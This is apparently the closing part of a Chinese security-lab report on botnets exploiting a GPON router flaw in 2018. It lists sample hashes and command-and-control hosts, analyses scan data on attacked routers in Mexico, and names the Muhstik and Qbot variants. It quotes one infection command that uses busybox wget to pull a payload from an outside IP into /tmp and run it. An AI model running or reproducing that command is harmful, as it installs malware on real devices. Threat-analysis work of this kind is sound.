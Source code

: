 
### <a class="reference-link" name="sha256sum%20ztccds.freesfocss.com/zt_arm"></a>sha256sum ztccds.freesfocss.com/zt_arm

24602f1c6d354e3a37d4a2e2dd9cef0098f390e1297c096997cc20da4795f2a2 ztccds.freesfocss.com/zt_arm<br>
该样本会连接 ztccds.freesfocss.com:23364,样本具体功能仍在研究中。
<li>未知样本2<br>
该样本使用的感染命令如下：<br>
编号11 busybox wget [http://185.246.152.173/omni](http://185.246.152.173/omni) -O /tmp/talk<br>
该样本运行的命令为 /tmp/talk gpon</li>


### <a class="reference-link" name="sha256sum%20185.246.152.173/omni"></a>sha256sum 185.246.152.173/omni

18c23bd57c8247db1de2413ce3ff9e61c5504c43cbadaaefce2fb59f4b3c10a0 185.246.152.173/omni<br>
该样本会连接185.246.152.173:1000,但该端口已经关闭(2018/05/09)。

0x02 受影响主机范围

注：由于仅探测了diag.html页面，故在多轮探测中我们只能确定哪些主机被攻击，无法判断攻击者是否攻击成功

一. 探测到的主机均集中在墨西哥<br>
在对探测到的主机进行地域划分时，三轮探测中被攻击的IP都位于墨西哥。<br>
对受影响最多的五个国家进行抽样测试，结果如下：<br>[![](https://p3.ssl.qhimg.com/t0174550f422eb51cb8.png)](https://p3.ssl.qhimg.com/t0174550f422eb51cb8.png)

该漏洞存在与墨西哥和哈萨克斯坦，但是由于固件不同，只有墨西哥的路由器会返回diag_host，所以我们仅监测到墨西哥的路由器受影响情况。<br>[![](https://p3.ssl.qhimg.com/t01d70cd1d201f66450.png)](https://p3.ssl.qhimg.com/t01d70cd1d201f66450.png)

由于墨西哥的设备占据了全球设备的一半以上，我们认为相关数据依旧可以反应僵尸网络的实际情况。

二. 受攻击的路由器执行的命令情况<br>
由于2018/05/05第一轮探测中只统计了存在/tmp字段的diag_host的内容，所以第一轮探测的数据具有一定的局限性。<br>[![](https://p1.ssl.qhimg.com/t01448d1660f0643646.png)](https://p1.ssl.qhimg.com/t01448d1660f0643646.png)

可以很明显看出：

确认被攻击的路由器数量在不断增加<br>
各僵尸网络活动频繁，2018/05/07 Muhstik 僵尸网络发动大量攻击，而2018/05/08就变成了 Q bot僵尸网络变种。僵尸网络之间的竞争可见一斑。



## 0x03 结语

近年来，僵尸网络逐渐盯上攻击简单但危害巨大的物联网漏洞。从去年的GoAhead到今年的GPON事件，无不在提醒我们物联网安全的重要性。能结合ZoomEye网络空间搜索引擎了解到GPON事件背后活跃的僵尸网络动态，对我们来说就是一种收获。<br>
作者：知道创宇404实验室<br>
本文由 Seebug Paper 发布，如需转载请注明来源。本文地址：[https://paper.seebug.org/595/](https://paper.seebug.org/595/)
